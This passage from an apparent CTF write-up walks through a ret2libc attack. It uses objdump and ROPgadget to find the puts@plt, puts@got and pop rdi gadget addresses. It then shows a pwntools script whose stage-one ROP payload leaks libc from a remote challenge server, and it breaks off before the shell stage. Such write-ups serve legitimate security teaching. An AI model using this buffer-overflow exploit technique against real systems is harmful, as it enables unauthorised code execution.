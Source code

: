 Maybe we can try this immediately since we have both these files together for the challenge.

We have to leak the libc addresses first before we can perform the ret2libc. I try to find out the addresses for puts@plt and puts@got using objdump.

![](../.gitbook/assets/8.png)

As we get the addresses, we can set up a ROP chain but we need to find the pop rdi; ret using ROPgadget.

![](../.gitbook/assets/9.png)

Now its time to fully leak the libc, access the shell and get the flag. Full exploit code we send to the challenge is below.

```python
from pwn import *

context.binary = './chall'
elf = context.binary
libc = ELF('./libc.so.6') # Provided libc

# p = process('./chall')          # for local
p = remote('34.133.69.112', 10007)  # comment/uncomment if remote later
# p = remote('host', port)         # if remote CTF server

# Important addresses
puts_plt = elf.symbols['puts']          # 0x401090
puts_got = elf.got['puts']              # 0x404018
vuln = elf.symbols['vuln']              # 0x40125C
pop_rdi_ret = 0x4012bd                  # pop rdi ; ret
ret = 0x40101a                          # ret gadget for stack alignment

log.info(f"puts@plt: {hex(puts_plt)}")
log.info(f"puts@got: {hex(puts_got)}")
log.info(f"vuln function: {hex(vuln)}")
log.info(f"pop rdi ; ret gadget: {hex(pop_rdi_ret)}")
log.info(f"ret gadget: {hex(ret)}")

# --- Stage 1: Leak puts address ---
payload = b"A" * 72
payload += p64(ret)            # Align the stack (ret) (important for SHSTK/IBT)
payload += p64(pop_rdi_ret)     # pop rdi; ret
payload += p64(puts_got)        # argument: puts@got
payload += p64(puts_plt)        # call puts@plt
payload += p64(vuln)            # return to vuln() for second stage
```